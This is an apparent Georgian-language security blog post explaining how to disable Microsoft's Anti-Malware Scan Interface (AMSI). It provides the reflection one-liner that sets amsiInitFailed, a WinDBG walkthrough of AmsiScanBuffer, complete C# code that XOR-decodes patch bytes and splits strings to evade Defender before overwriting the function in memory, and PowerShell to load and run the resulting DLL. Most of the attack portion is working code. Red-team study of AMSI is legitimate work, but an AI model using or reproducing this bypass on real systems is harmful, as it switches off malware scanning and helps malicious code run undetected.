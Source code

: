 ```yaml
---
title: "AMSI In-Memory Patching"
date: 2023-03-07T01:38:06+04:00
draft: false
---
```


# AMSI In-Memory Patching


<br><br>


![Untitled](/images/amsi-1/amsi-arch.jpg)

**AMSI** ანუ **Anti Malware Scan Interface** არის Microsoft - ის მიერ შემუშავებული ტექნოლოგია, რომლის მიზანიც იყო და არის memory ში მავნე signature - ების დაფიქსირება და იგი პირველად გაჩნდა Windows 10 - ში. AMSI - ს შეუძლია შეანელოს "შემტევის" აქტივობები, თუმცა მასზე თავის არიდება არ არის რთული და დროის საკითხია.

თქვენ, რომ დაგუგლოთ `amsi bypass` ან `amsi evasion`, უამრავ გამზადებულ “ქომანდებს” ნახავთ, რომელთა ნახევარი უბრალოდ არ იმუშავებს. მიზეზი კი ის არის, რომ ანტივირუსი, რომელიც სისტემაზე არის, მუდმივად განიცდის განახლებას და “მზა” ქომანდები სულაც არ არის ისეთ “მზამზარეული” როგორიც ერთი შეხედვით ჩანდა.
<!--more-->
მაგალითად, ავიღოთ ეს ქომანდი, რომელიც 2016 წელს არის დაინტიფიცირებული:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

ამ ქომანდის მიზანი არის .NET reflection ტექნიკის დახმარებით მოახერხოს მემორიში `amsiInitFailed` ცვლადის შეცვლა, რის მერეც გაითიშება AMSI.

თუმცა, პრობლემა იმაშია რომ `AmsiUtils` სტრინგი იდენტიფიცირდება როგორც მავნე:

![Untitled](/images/amsi-1/Untitled.png)

მაშასადამე, საჭირო ხდება სტრინგის ე.წ “დამახინჯება” ანუ ობფუსკაცია.

მაგალითად:

![Untitled](/images/amsi-1//Untitled%201.png)

![Untitled](/images/amsi-1//Untitled%202.png)

თუმცა, პრობლემა ჯერ ვერ მოგვარდა. პრობლემა იმაშია რომ მსგავსი ე.წ “ბაიპასის” მეთოდები დამოკიდებულია პიროვნების კრეატიულობაზე (თუმცა დიდად არ მოითხოვს კრეატიულობას). საჭირო ხდება სხვანაირი მიდგომა. საჭიროა ქომანდების ძირფესვიანად გააზრება.

მსგავს შემთხვევებში საჭიროა გავიგოთ რა ქომანდებს ვაკოპირებთ, და ზოგადად როგორ მუშაობს AMSI.

თუმცა ეს პოსტი ეხება ცოტა სხვა საკითხს. იმისათვის, რომ არ ვიწვალოთ ბევრი ახალი იდეის მოფიქრებაზე, დაგვიჭრდება პირდაპირ მემორიში საჭირო ადგილას საჭირო ინსტრუქციების შეცვლა.

მაგალითად, **powershell.exe** როცა ვხსნით, ხდება **amsi.dll** ის ჩატვირთვა, შემდგომ ხდება `AmsiInitialize()` ფუნქციის გამოძახება, რომელიც ამზადებს გარემოს AMSI - სთვის. შემდგომ როცა `powershell` - ში ახალ ქომანდს გავუშვებთ ხდება:

1. `AmsiOpenSession()` ის გამოძახება
2. `AmsiScanBuffer()` ის გამოძახება    **// აქ ხდება შემომავალი ქომანდის შემოწმება**
3. `AmsiCloseSession()` ის გამოძახება ბოლოს.

ამჯერად ავიღოთ `AmsiScanBuffer` და ვნახოთ მისი ინსტრუქციები მემორიში `WinDBG` - ის დახმარებით:

ვსვავთ ე.წ `breakpoint` - ს, `amsi!AmsiScanBuffer` - ზე

**შენიშვნა:** `amsi!` ნიშნავს, რომ ვაკითხავთ `amsi.dll` ფაილს. ხოლო ძახილის შემდგომ ვწერთ ამ dll ში არსებულ დაექსპორტებულ ფუნქციას.

![Untitled](/images/amsi-1//Untitled%203.png)

და როდესაც რაიმე ქომანდს გავუშვებთ, და-trigger-დება:

![Untitled](/images/amsi-1//Untitled%204.png)

![Untitled](/images/amsi-1//Untitled%205.png)

ქვემოთა სურათზე ვხედავთ, რომ მოწმდება არგუმენტები, რომელიც გადავეცით `AmsiScanBuffer` - ს. თუ რაიმე არასწორია, მაშინ “ვხტებით” ინსტრუქციაზე:

```c
# 0x80070057h = E_INVALIDARG
mov eax, 0x80070057h
```

![Untitled](/images/amsi-1//Untitled%206.png)

შესაბამისად აქედან ვიგებთ, რომ თუკი `AmsiScanBuffer` - ს რაიმე რეგისტრი არ მოეწონა, მაშინ ხტება ბოლო ინსტრუქციებზე და ითიშება “amsi”.

დავწეროთ `C#` ში კოდი, რომელიც იპოვის მიმდინარე პროცესის მემორიში არსებულ `amsiScanBuffer` ფუნქციას და შევლის მას.

შენიშვნა: ქვემოთ მოცემულ კოდში, ვაკეთებთ XOR ოპერაციას ქვემოთ მოცემულ ბაიტებზე. რადგან, defender აღიქვავს კონკრეტულ ბაიტებს საეჭვოდ და ათრიგერებს. შესაბამისად აქ დაგვჭირდა XOR ოპერაციის გაკეთება. შემდგომ პოსტებში შევეხებით `AV Evasion` თემებს.
ჩვენი მიზანია `AmsiScanBuffer` - ის პირველი assembly ინსტრუქციები ჩავანაცვლოთ შემდეგი ბაიტებით:

```0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3```

```csharp
using System;
using System.Reflection;
using System.Security.Policy;
using System.Runtime.InteropServices;   // გვჭირდება WinAPI ფუნქციების დაიმპორტებისთვის
using System.Text;
using System.Collections.Generic;

namespace ClassLibrary1
{
    public class Class1
    {
		// საჭირო WinAPI ფუნქციების დეკლარაცია
        [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        
        public static void runner()
        {
			// amsi.dll მოდულის მისამართის "აღება"
            IntPtr amsiPtr = GetModuleHandle("amsi.dll");
            StringBuilder haha = new StringBuilder();
			// "AmsiScanBuffer" - როგორც ერთ სტრინგს, Defender აღიქვავს, როგორც მავნე signature
            haha.Append("Am");
            haha.Append("si");
            haha.Append("Sc");
            haha.Append("an");
            haha.Append("Buffer");

			// "AmsiScanBuffer" მისამართის აღება amsi.dll მოდულიდან.
            var amsiScanBuf = GetProcAddress(amsiPtr, haha.ToString());

			// ეს hex ბაიტები იყო და-XOR-ებული 0xC სთან - ეს საჭირო იყო defender ისთვის გვერდის ავლისთვის.
            //new opcodes
            byte[] encodedopcodes = new byte[] { 0xB4, 0x5B, 0x0C, 0x0B, 0x8C, 0xCF };
            byte[] decodedOpcodes = new byte[6];
            List<byte> objList = new List<byte>();

            foreach (byte opcode in encodedopcodes)
            {
                objList.Add((byte)(opcode ^ 0xc));
            }
            objList.CopyTo(decodedOpcodes);

			// memory page - ისთვის შესაბამისი პერმიშენების მინიჭება - 0x40
            VirtualProtect(amsiScanBuf, (UIntPtr)encodedopcodes.Length, 0x40, out uint oldProtect);
            Marshal.Copy(decodedOpcodes, 0, amsiScanBuf, decodedOpcodes.Length);
        }
    }
}
```

აღსანიშნავია, რომ ეს უნდა შევინახოთ როგორც `.DLL` ფაილი და შემდგომ იგი უნდა ჩავტვირთოთ როგორც ახალი .NET Assembly:

```powershell
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Public\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

პირველ რიგში დავრწმუნდეთ, რომ ეს ჩვენი სტრინგი: “**AmsiUtils**” დაფიქსირებადია Windows Defender - ის მიერ:

![Untitled](/images/amsi-1//Untitled%207.png)

ჩავტვირთოთ ჩვენი ახალი `.NET Assembly` მიმდინარე პროცესში:

![Untitled](/images/amsi-1//Untitled%208.png)

![Untitled](/images/amsi-1//Untitled%209.png)

შესაბამისად, დავინახეთ რომ პირდაპირ მემორიში "მაქინაციების" დახმარებით მივაღწიეთ მიზანს, გავთიშეთ **AMSI** ისე, რომ ანტივირუსი არ დათრიგერდა.

და ბოლოს, ყურადღებას ვამახვილებ შემდეგ კოდის ნაწილზე:


```csharp
 		[DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

```

თუ გსურთ, რომელიმე WinAPI ფუნქციის დაიმპორტება და რომ არ იწვალოთ ამ ფუნქციებისთვის დეკლარაციისთვის პარამეტრების მიწერა, შეგილიათ გამოიყენოთ ეს საიტი: https://www.pinvoke.net/


![Untitled](/images/amsi-1/pinvoke.png)